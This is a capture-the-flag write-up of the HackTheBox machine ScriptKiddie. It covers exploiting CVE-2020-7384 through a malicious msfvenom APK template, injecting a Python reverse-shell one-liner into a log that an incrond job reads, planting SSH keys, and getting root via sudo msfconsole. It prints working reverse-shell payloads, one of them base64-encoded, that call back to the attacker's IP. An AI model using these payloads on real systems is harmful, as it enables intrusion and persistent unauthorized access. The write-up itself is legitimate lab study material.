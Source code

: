 ```yaml
---
tags:
  - linux
---
```

# HTB: [ScriptKiddie](https://app.hackthebox.com/machines/ScriptKiddie)

> [!tip]- Summary with Spoilers
> - This machine exposed a Metasploit installation, which I used to exploit a Git-related vulnerability for initial access as `kid`.
> - I moved laterally to `pwn` by injecting malicious input into a writable log file processed by an `incrond` job.
> - Privilege escalation was achieved by leveraging a misconfigured `msfconsole` binary, granting a `root` shell.

## Enumerate

```console
$ nmap -n -sCV -T4 -p1-65535 $t
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-18 17:35 CDT
Nmap scan report for 10.10.10.226
Host is up (0.26s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 724.14 seconds
```

Port 5000 is running a simple web service on [Werzkzeug](https://werkzeug.palletsprojects.com/en/3.0.x/), a Python `httpd` framework.

There are no apparent exploits available for the services themselves, but the page offers an opportunity:

![](_/htb-scriptkiddie-20231019-1.png)

## Exploit

The `payloads` section offers an opportunity to pass a malicious `msfvenom` template, per [CVE-2020-7384](https://nvd.nist.gov/vuln/detail/CVE-2020-7384). MSF now offers [a module](https://www.exploit-db.com/exploits/49491) to exploit this vulnerability, but I'll use [this script](https://github.com/nikhil1232/CVE-2020-7384/blob/main/CVE-2020-7384.sh) to generate the payload:

```console
$ sh cve-2020-7384.sh 
-e 
\x1B[31mCVE-2020-7384
-e 
Enter the LHOST: 
10.10.16.5
-e 
Enter the LPORT: 
443
-e 
Select the payload type
1. nc
2. bash
3. python
4. python3

select: 2
-e 
Enter the Directory (absolute path) where you would like to save the apk file (Hit Enter to use the current directory): 

  adding: emptyfile (stored 0%)
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Generating 2,048 bit RSA key pair and self-signed certificate (SHA256withRSA) with a validity of 90 days
        for: CN="'|echo L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNS80NDMgMD4mMSIK | base64 -d | sh #"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
jar signed.

Warning: 
The signer's certificate is self-signed.
The SHA1 algorithm specified for the -digestalg option is considered a security risk and is disabled.
The SHA1withRSA algorithm specified for the -sigalg option is considered a security risk and is disabled.
POSIX file permission and/or symlink attributes detected. These attributes are ignored when signing and are not protected by the signature.
-e 
New APK file Generated
Location: "[...]/exploit.apk"
[...]

$ ls -l exploit.apk 
-rw-r----- 1 e e 2075 Oct 19 13:49 exploit.apk
```

I set up a `nc` listener and the feed `exploit.apk` to the web service:

![](_/htb-scriptkiddie-20231019-2.png)

```console
$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.226] 39690
bash: cannot set terminal process group (897): Inappropriate ioctl for device
bash: no job control in this shell
kid@scriptkiddie:~/html$ cat /home/kid/user.txt
cat /home/kid/user.txt
787100[...]
```

I add my public key to `authorized_keys` to get a proper interactive shell:

```console
kid@scriptkiddie:~/html$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AA[...]' >> ~/.ssh/authorized_keys
```

```console
$ ssh kid@$t
[...]
Last login: Wed Feb  3 12:07:35 2021 from 10.10.14.4
kid@scriptkiddie:~$ 
```

## Escalate

From here I see two login users, `kid` and `pwn`. In the latter's home directory there's this script:

```console
kid@scriptkiddie:~$ cat /home/pwn/scanlosers.sh 
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

Given that the user `kid` has write access to the input for this script, I'm able to move laterally to the `pwn` user. The script appears to be triggered via [incrond](https://linux.die.net/man/8/incrond). Here's the payload:

```console
kid@scriptkiddie:~$ cat x
1 1 `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.5",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
kid@scriptkiddie:~$ cat x > logs/hackers
```

On the listener:

```console
$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.226] 58740
$ id
id
uid=1001(pwn) gid=1001(pwn) groups=1001(pwn)
$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AA[...]' >> >> .ssh/authorized_keys
sh: 2: cannot create .ssh/authorized_keys: Permission denied
$ mv .ssh/authorized_keys ./
mv .ssh/authorized_keys ./
$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AA[...]' >> >> .ssh/authorized_keys
echo 'ssh-ed25519
```

The file `.ssh/authorized_keys` was immutable (I'm not sure the mechanism, since `lsattr` didn't have the `i` flag) but I was able to move it out of the way and create a new `authorized_keys` file. Now with a proper shell I check `sudo` privileges:

```console
$ ssh pwn@$t
[...]
Last login: Thu Jan 28 17:52:15 2021 from 10.10.14.7
pwn@scriptkiddie:~$ sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
pwn@scriptkiddie:~$ 
```

`msfconsole` is trivially exploitable for a `root` shell:

```console
pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole -q -x /usr/bin/bash
[*] exec: /usr/bin/bash

root@scriptkiddie:/home/pwn# cat /root/root.txt
cb08fe[...]
```
